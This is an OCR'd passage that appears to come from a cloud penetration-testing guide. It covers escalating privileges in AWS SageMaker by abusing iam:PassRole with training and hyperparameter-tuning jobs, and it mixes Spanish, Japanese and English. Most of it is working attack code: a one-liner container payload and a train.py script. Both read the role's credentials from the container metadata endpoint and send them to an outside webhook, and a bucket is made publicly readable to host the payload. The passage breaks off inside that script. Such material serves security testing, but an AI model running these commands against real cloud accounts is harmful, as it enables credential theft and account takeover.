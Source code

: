 ```bash
--algorithm-specification "{\"TrainingImage\":\"$IMAGE\",\"TrainingInputMode\":\"File\",\"ContainerEntrypoint\":[\"python\",\"-c\"],\"ContainerArguments\":[\"import os,urllib.request as u;m=os.environ.get('AWS_CONTAINER_CREDENTIALS_RELATIVE_URI');m and u.urlopen(os.environ['W'],data=u.urlopen('http://169.254.170.2'+m).read())\"]}" \
--output-data-config "{\"S3OutputPath\":\"$OUTPUT_S3\"}" \
--resource-config '{"InstanceCount":1,"InstanceType":"ml.m5.large","VolumeSizeInGB":50}' \
--stopping-condition '{"MaxRuntimeInSeconds":600}' \
--environment "$ENV"

# El payload se ejecuta en cuanto el job pasa a InProgress y exfiltra las credenciales del rol.
```
**Potential Impact:** 指定された SageMaker サービスロールへの Privesc。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

これらの権限を持つ attacker は、指定したロールで attacker-controlled code を実行する HyperParameter Tuning Job を起動できます。Script mode はペイロードを S3 にホストする必要がありますが、すべての手順は CLI から自動化できます:
```bash
REGION=<region>
ROLE_ARN=<sagemaker-role-to-abuse>
BUCKET=sm-hpo-privesc-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION

# Allow public reads so any SageMaker role can pull the code
aws s3api put-public-access-block \
--bucket $BUCKET \
--public-access-block-configuration '{
"BlockPublicAcls": false,
"IgnorePublicAcls": false,
"BlockPublicPolicy": false,
"RestrictPublicBuckets": false
}'

aws s3api put-bucket-policy --bucket $BUCKET --policy "{
\"Version\": \"2012-10-17\",
\"Statement\": [
{
\"Effect\": \"Allow\",
\"Principal\": \"*\",
\"Action\": \"s3:GetObject\",
\"Resource\": \"arn:aws:s3:::$BUCKET/*\"
}
]
}"

cat <<'EOF' > /tmp/train.py
import os, time, urllib.request

def main():
meta = os.environ.get("AWS_CONTAINER_CREDENTIALS_RELATIVE_URI")
if not meta:
return
creds = urllib.request.urlopen(f"http://169.254.170.2{meta}").read()
req = urllib.request.Request(
"https://example.com/webhook",
data=creds,
headers={"Content-Type": "application/json"}
)
urllib.request.urlopen(req)
print("train:loss=0")
time.sleep(300)

```